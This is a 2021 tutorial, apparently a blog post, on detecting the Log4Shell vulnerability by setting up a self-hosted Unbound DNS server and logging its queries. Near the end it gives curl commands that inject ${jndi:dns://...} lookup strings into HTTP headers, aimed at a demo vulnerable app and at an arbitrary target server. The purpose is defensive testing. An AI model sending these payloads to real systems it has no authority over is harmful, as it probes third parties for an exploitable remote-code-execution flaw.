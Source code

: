 ```yaml
---
title: Check Log4Shell vulnerability using Unbound DNS server
excerpt: Check vulnerability without relying on third-party services
date: 2021-12-17
tags:
- security
- aws
---
```


Most of the publications discussing the Log4Shell/[Log4j](https://blogs.apache.org/foundation/entry/apache-log4j-cves) vulnerability ([[1]](https://www.huntress.com/blog/rapid-response-critical-rce-vulnerability-is-affecting-java), [[2]](https://www.lunasec.io/docs/blog/log4j-zero-day/), [[3]](https://blog.cloudflare.com/inside-the-log4j2-vulnerability-cve-2021-44228/), [[4]](https://arstechnica.com/information-technology/2021/12/minecraft-and-other-apps-face-serious-threat-from-new-code-execution-bug/)) focus on the ability to instruct the JNDI component to load remote code or download payload using [LDAP](https://en.wikipedia.org/wiki/Lightweight_Directory_Access_Protocol). A less known fact is that Log4j also supports DNS protocol by default, at least in versions prior to 2.15.0.

Huntress, a cyber security company, created an easy-to-use tool at [log4shell.huntress.com](https://log4shell.huntress.com/) to detect whether your server is vulnerable using LDAP. Despite the assurance of transparency by the availability of [source code](https://github.com/huntresslabs/log4shell-tester) so you could host it yourself, there's no denying the fact that log4shell.huntress.com is a _third-party_ service; even if anyone could host it, not everyone has the ability to audit the source code. Another third-party service that is mentioned around is [dnslog.cn](http://www.dnslog.cn/) which detects (as the name implies) using DNS protocol.

Since the DNS request made by Log4j is just a simple DNS lookup—similar to a web browser's request—we can run any kind of DNS server: authoritative or recursive. Recursive DNS server is the easier option because it simply forwards request to upstream authoritative server(s). If a server is vulnerable, we'll see its IP address in the DNS server's query logs when we attempt the exploit.

## Setup DNS server

Unbound is a popular DNS server due to its simplicity. dnsmasq is another option, it was the default dns caching in Ubuntu before being replaced by systemd-resolved.

When installing a server (web, DNS, app, etc), Ubuntu usually starts the service immediately after installation. I prefer to properly configure a server before starting it, so I'm going to _mask_ it first to prevent that auto-start.

> Except for checking service status, log and dns query, all commands require `sudo` privilege.

```
systemctl mask unbound
```

Then, we can proceed to install and configure it.

```
apt update
apt install unbound
sudo -e /etc/unbound/unbound.conf.d/custom.conf
```

_`sudo -e` is preferred over `sudo nano` for [security reason](https://teddit.net/r/linux/comments/osah05/ysk_do_not_use_sudo_vimnanoemacs_to_edit_a_file/)._

Paste the following config.

``` yml
# Based on https://www.linuxbabe.com/ubuntu/set-up-unbound-dns-resolver-on-ubuntu-20-04-server
server:
  # the working directory.
  directory: "/etc/unbound"

  # run as the unbound user
  username: unbound

  # uncomment and increase to get more logging
  # verbosity: 2

  # log dns queries
  log-queries: yes

  # listen on all interfaces,
  interface: 0.0.0.0
  # comment out to support IPv6.
  # interface: ::0
  # answer queries from the local network only, change to your private IP
  # interface: 192.168.0.2

  # perform prefetching of almost expired DNS cache entries.
  prefetch: yes

  # respond to all IP
  access-control: 0.0.0.0/0 allow
  # IPv6
  # access-control: ::0/0 allow

  # respond to local network only, change the CIDR according to your network
  # access-control: 192.168.88.0/24 allow

  # localhost only
  # access-control: 127.0.0.1/24 allow

  # hide server info from clients
  hide-identity: yes
  hide-version: yes

remote-control:
  # Disable unbound-control
  control-enable: no

forward-zone:
  # Forward all queries to Quad9, use your favourite DNS
  name: "."
  forward-addr: 9.9.9.9
  forward-addr: 149.112.112.112
```

_`Ctrl + X` to quit, press `Y` to save, `Enter` to confirm._

> With the above config, Unbound will respond to _all_ IP, including _public_ IP if exposed to internet.

Since Unbound will listen on all interfaces, it'll interfere with systemd-resolved which listens on 127.0.0.53:53 by default. So, before we start Unbound, systemd-resolved needs to be disabled first.

```
systemctl disable --now systemd-resolved
```

We also need to add the server's hostname to `/etc/hosts`, otherwise `sudo` will take a long time to execute. If you're using AWS EC2, the hostname will be "ip-_a_-_b_-_c_-_d_" where _abcd_ is the private IP.

```
sudo -e /etc/hosts
# append this line
127.0.0.1 ip-a-b-c-d
```

The last step before we start the service is to configure the firewall to allow inbound DNS traffic. I recommend not to allow all IP (0.0.0.0, ::0), otherwise you'll get unwanted traffic. In EC2, that means the attached security group.

After we configure the firewall, we can proceed to start Unbound.

```
systemctl enable --now unbound
```

To see whether it's working, execute some queries:

```
# localhost
dig example.com @127.0.0.1

# other machine, same subnet
dig example.com @192.168.0.x

# other machine over internet
dig example.com @public-ip
```

Verify Unbound is logging queries,

```
journalctl -xe -u unbound
# Dec 14 01:23:45 ip-a-b-c-d unbound[pid]: [pid:0] info: 127.0.0.1 example.com. A IN
```

We are now ready to test Log4shell vulnerability.

## Demo vulnerable app

> This is an optional step to demonstrate Log4shell.

A demo vulnerable is available as a Docker image at [christophetd/log4shell-vulnerable-app](https://github.com/christophetd/log4shell-vulnerable-app). For best security practice, I recommend:

1. Run it in an isolated network or environment.
2. Clone (the repo) and build it, instead of running the prebuild image.

After building the image and just before you run it, configure the relevant firewall to restrict outbound connection to the Unbound DNS server only. If you prefer to use port 80 for the app server, run `docker run -p 80:8080 --name vulnerable-app vulnerable-app`. Open inbound port 8080 (or port 80) in the firewall.

To test the app server is reachable, send a test request.

```
curl -IL app-server-ip:8080 -H 'X-Api-Version: foo'
```

The app server should respond HTTP 200. The header must be `X-Api-Version` because that's what configured in the log4shell-vulnerable-app.

Once the connection is verified, we can now instruct it to make a DNS request to our Unbound DNS.

```
curl -L app-server-ip:8080 -H 'X-Api-Version: ${jndi:dns://dns-server-ip/evil-request}'
```

In the Unbound's log, the query should be listed.

```
journalctl -xe -u unbound
# Dec 14 01:23:45 ip-a-b-c-d unbound[pid]: [pid:0] info: app-server-ip evil-request. A IN
```

If you want to see the query log in realtime, `journalctl -xe -u unbound -f`. If it's not listed, check the inbound firewall rule applied to the DNS server.

## Is that server vulnerable?

```
curl -L https://target-server-domain -H 'User Agent: ${jndi:dns://dns-server-ip/should-not-show-up-in-the-log}'
```
